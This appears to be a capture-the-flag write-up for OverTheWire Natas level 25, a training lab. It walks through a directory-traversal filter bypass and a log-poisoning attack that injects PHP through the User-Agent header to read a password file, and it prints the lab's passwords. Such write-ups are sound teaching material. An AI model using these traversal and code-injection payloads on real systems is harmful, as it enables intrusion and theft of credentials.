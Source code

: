 ```yaml
---
title: Wargames - Natas 25
published: true 
tags: natas
---
```


## [Level 25](https://overthewire.org/wargames/natas/natas25.html)

Username: natas25
password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
Lab URL: http://natas25.natas.labs.overthewire.org/

Main page show quote. Users can select quotes in different languages in the drop list. Domain quote language is English.
![main page](assets/natas/25/main_page.png)

I begin with code analyzing. This function: 

```
function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n"; 
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
```

is interesting because by performing directory traversal, there is access to this file by generating the request to the following URL:
```
http://natas25.natas.labs.overthewire.org/?lang=.../...//logs/natas25_<put_your_sessionid_here>.log
```
the file content is returned. The beginning of file location is
.../.../ because there is an insecure way of protection against directory traversal. Function str_replace from this data produce ../ and this is way attacker wants. So now, when I have access to this file, I only need to put a password in that file. Directly reading the file with the password is impossible because of that part:
```
if(strstr($filename,"natas_webpass")){
    logRequest("Illegal file access detected! Aborting!");
    exit(-1);
}
```
this code checks the presence of "natas_webpass" in the location link if it presents return -1.
Based on the first part of the code in this post, you can see that the data to the file is taken from the "user_agent" parameter. So code for stealing password can be injected via this param, the code with doing this is:
```
<? readfile("/etc/natas_webpass/natas26") ?>
```

![request](assets/natas/25/request.png)

After submitting a request modified in that way, the password is in a log file.

![password](assets/natas/25/password.png)

password: oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T